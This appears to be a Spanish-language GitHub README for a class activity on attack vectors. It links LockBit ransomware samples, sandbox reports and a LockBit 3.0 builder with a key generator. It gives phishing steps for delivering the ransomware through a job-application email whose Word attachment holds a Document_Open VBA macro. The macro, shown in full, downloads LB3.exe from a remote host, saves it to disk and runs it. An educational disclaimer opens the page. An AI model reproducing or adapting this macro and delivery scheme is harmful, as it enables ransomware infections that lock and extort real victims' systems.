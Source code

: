 # Vectores de Ataque
Información para Actividad Vectores de Ataque

# ⚠️DESCARGO DE RESPONSABILIDAD

Este proyecto solo se puede utilizar con fines educativos. El uso de este software contra sistemas de destino sin permiso previo es ilegal y el autor no se hará responsable de los daños que se produzcan por el uso indebido de este software o componentes cargados en este repositorio.

Informe de análisis en Sandbox de la muestra LB3.exe (Lockbit) - LB3_exe_Malicious activity _ ANY_RUN - Malware Sandbox Online.7z

Informe de análisis en Sandbox de la muestra ctrsys.exe (Lockbit) - ctrsys_exe_Malicious activity _ ANY_RUN - Malware Sandbox Online.7z

Carga Maliciosa crtsys.exe - Muestra_crtsys_exe_Lockbit.zip

Carga Maliciosa LB3.exe - Muestra_LB3_exe_Lockbit.zip

# Lockbit - Main
El archivo LockBit-main.zip contiene los siguientes archivos

Construir.bat

constructor.exe

configuración.json

keygen.exe

Para probar LockBit 3.0 en un sistema, primero es necesario generar los archivos requeridos antes de su ejecución. Este proceso puede automatizarse mediante el archivo por lotes disponible en este repositorio. Una vez completado, existen diversas formas de acceder al sistema, muchas de las cuales están documentadas en guías en línea. A continuación, se describen los pasos para un par de estos métodos.

### Cómo acceder a un sistema con un esquema de phishing

En este caso, el ataque se inicia mediante un correo electrónico que contiene una solicitud de empleo. Al abrir el archivo adjunto en Microsoft Word y habilitar la edición, se activa la descarga y ejecución de LockBit 3.0. Aunque existe una guía en línea con más detalles, a continuación se presentan algunos consejos clave:

1. En Word, se debe ingresar al modo de desarrollo
2. Implementar la descarga y ejecución de LockBit 3.0 en la macro. Aquí hay una versión de la macro que implementa esto:

```
Sub Document_Open()

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://example.com/LB3.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "c:\temp\LB3.exe", 2 '//overwrite
end with

CreateObject("WScript.Shell").Run "c:\temp\LB3.exe"

End Sub
```
3. Por último enviar el correo electrónico que contiene el documento y cuando el usuario lo abre y presiona "Habilitar edición", debe ejecutar LockBit 3.0

Referencia: https://github.com/Tennessene/LockBit/tree/main 
